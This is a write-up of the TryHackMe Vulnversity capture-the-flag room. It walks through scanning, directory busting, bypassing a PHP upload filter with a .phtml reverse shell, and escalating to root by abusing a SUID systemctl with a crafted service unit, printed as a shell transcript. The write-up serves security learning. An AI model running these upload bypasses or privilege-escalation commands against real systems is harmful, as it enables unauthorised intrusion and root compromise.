 Writeup for Tryhackme Vulversity ctf challenge.

Prerequisites

I would recommend that you should have basic knowledge of the following, it’s not necessary but it will help you to solve the tasks more effectively and efficiently
>Nmap
>Directory Busting
>Burpsuit
>Linux file systems, Permissions, SETUIDs, environmental variables, etc



![vulnversityinfo](https://user-images.githubusercontent.com/64267672/125898695-f9675392-6613-46e3-a863-3854441856a4.png)




Starting with an nmap scan foinformation gathering;
![vulnversitynmap](https://user-images.githubusercontent.com/64267672/125898736-ce5c5152-0a60-499b-8697-f8995f410a56.png)


Looking at the web server on port 3333 & we have this;
![vulnversityweb](https://user-images.githubusercontent.com/64267672/125899869-bb9d8ff0-7dc2-4044-90bf-daa20a41838d.png)


Now bruteforcing for interesting directories some;
![vulnversitybuster](https://user-images.githubusercontent.com/64267672/125899970-b95c697f-7942-4e34-999b-2339170d23d2.png)

we see that there's a hidden '/uploads' directory indside of '/internal' directory all in the web server on port 3333


visiting the /internal directory reveals to us the upload feature of the website
![vulnversityinternal](https://user-images.githubusercontent.com/64267672/125900826-db85ce15-de0b-4b34-9787-21d12c21c5f5.png)


Most time the upload feature of a website can be vulnurable & an attacker can try to upload malicious content into the server just like I'm gonna do. Now i can try to upload a reverse shell;
![vulnversityupload](https://user-images.githubusercontent.com/64267672/125900859-bfcc73fb-b018-4113-9c6e-76271ef6ab2e.png)

(Before upload)

Ok so we get our php reverse shell ready with the listening ip address & port number (attacker's);
![vulnversityphpshell](https://user-images.githubusercontent.com/64267672/125902181-25e10dc9-c785-4529-8f60-ed78cbd19176.png)

ok we can start testing the upload feature with whatever file extentions you prefer, but i started with a .php file extention but .php file extention is being filtered apparently;
![vulnversityphpfilter](https://user-images.githubusercontent.com/64267672/125902716-2e26df2e-af66-49c2-a4dc-17decaf0109d.png)


But GOODNEWS!! This can be bypassed. 
![vulnversityphpfile](https://user-images.githubusercontent.com/64267672/125903288-51289c6c-49fb-4cfc-a37a-131321557c9e.png)


ok so making a list of the file extentions i can bruteforce & see which works ok;
![vulnversityburpfile](https://user-images.githubusercontent.com/64267672/125903670-2da7cd4a-8ed0-4b45-a865-120d90763358.png)


![vulnversityburp](https://user-images.githubusercontent.com/64267672/125903779-ee8c47fe-5ed9-4c7d-a0dd-b22c218dadf9.png)


Now we have a result & 1 lucky hit;
![vulnversityintrud](https://user-images.githubusercontent.com/64267672/125903949-5833a289-3298-4f09-9829-7f7b37bfbb2c.png)


so we now what file extention to save our reverse shell now, so we try to upload malicios file but this time saving it as .phtml;
![vulnversityphpsuccess](https://user-images.githubusercontent.com/64267672/125904448-4d7fa0cc-276c-4725-87df-49f6a6c86b52.png)

And here we go!!
we can find our file in /uploads directory;
![vulnversityfileupload](https://user-images.githubusercontent.com/64267672/125904738-c2c6ddb5-e50c-4902-a00d-48793a1b8caf.png)

Now we can setup our netcat listener to listen on the specified port we set on our reverse shell script, mine being port 1337;
![vulnversitynetcat](https://user-images.githubusercontent.com/64267672/125905190-a7dc5352-eb12-449d-895e-24a60502cfe9.png)

BOOM!! we have a shell as www-data user;
![vulnversityshell](https://user-images.githubusercontent.com/64267672/125905454-9ec6b6f9-0dd4-40b9-a31b-484914bc3359.png)

now to escalate to higher privilege (root);
You can use any of the popular enumerations scripts available .
We are looking for a file that has the setuid bit set (In Linux, SUID (set owner userId upon execution) is a special type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it)

```
www-data@vulnuniversity:/home/bill$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
< \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null              
-rwxr-sr-x 1 root tty 27368 May 16  2018 /usr/bin/wall
-rwxr-sr-x 1 root tty 14752 Mar  1  2016 /usr/bin/bsd-write
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newuidmap
-rwxr-sr-x 1 root mlocate 39520 Nov 18  2014 /usr/bin/mlocate
-rwxr-sr-x 1 root shadow 62336 May 16  2017 /usr/bin/chage
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwxr-sr-x 1 root utmp 434216 Feb  7  2016 /usr/bin/screen
-rwxr-sr-x 1 root ssh 358624 Jan 31  2019 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newgidmap
-rwxr-sr-x 1 root crontab 36080 Apr  5  2016 /usr/bin/crontab
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwxr-sr-x 1 root shadow 22768 May 16  2017 /usr/bin/expiry
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 23376 Jan 15  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwsr-sr-x 1 daemon daemon 51464 Jan 14  2016 /usr/bin/at
-rwsr-sr-x 1 root root 98440 Jan 29  2019 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 76408 Jul 17  2019 /usr/lib/squid/pinger
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwxr-sr-x 1 root utmp 10232 Mar 11  2016 /usr/lib/x86_64-linux-gnu/utempter/utempter
-rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwxr-sr-x 1 root shadow 35600 Apr  9  2018 /sbin/unix_chkpwd
-rwxr-sr-x 1 root shadow 35632 Apr  9  2018 /sbin/pam_extrausers_chkpwd
-rwsr-xr-x 1 root root 35600 Mar  6  2017 /sbin/mount.cifs
www-data@vulnuniversity:/home/bill$ 
```
We can see that /bin/systemctl stands out from the rest;

```systemctl is a binary that controls interfaces for init systems and service managers. Remember making your services run using the systemctl command during the boot time. All those tasks are handled as units and are defined in unit folders. By default systemctl will search these files in /etc/system/systemd```

With help of Gtfobins, we can execute commands as root & we are ROOT!

```www-data@vulnuniversity:/opt$ priv=$(mktemp).service
priv=$(mktemp).service
www-data@vulnuniversity:/opt$ echo '[Service]
echo '[Service]
> ExecStart=/bin/bash -c "id > /opt/flags"
ExecStart=/bin/bash -c "id > /opt/flags"
> [Install]
[Install]
> WantedBy=multi-user.target' > $priv
WantedBy=multi-user.target' > $priv
www-data@vulnuniversity:/opt$ /bin/systemctl link $priv
/bin/systemctl link $priv
Created symlink from /etc/systemd/system/tmp.JkIyFRM4eb.service to /tmp/tmp.JkIyFRM4eb.service.
www-data@vulnuniversity:/opt$ /bin/systemctl enable --now $priv
/bin/systemctl enable --now $priv
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.JkIyFRM4eb.service to /tmp/tmp.JkIyFRM4eb.service.
www-data@vulnuniversity:/opt$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@vulnuniversity:/opt$ cd /root
cd /root
bash: cd: /root: Permission denied
www-data@vulnuniversity:/opt$ ls
ls
flag  flags
www-data@vulnuniversity:/opt$ cat flags
cat flags
uid=0(root) gid=0(root) groups=0(root)
```

###References-
```
https://tryhackme.com/room/vulnversity
https://gtfobins.github.io/gtfobins/systemctl/#suid

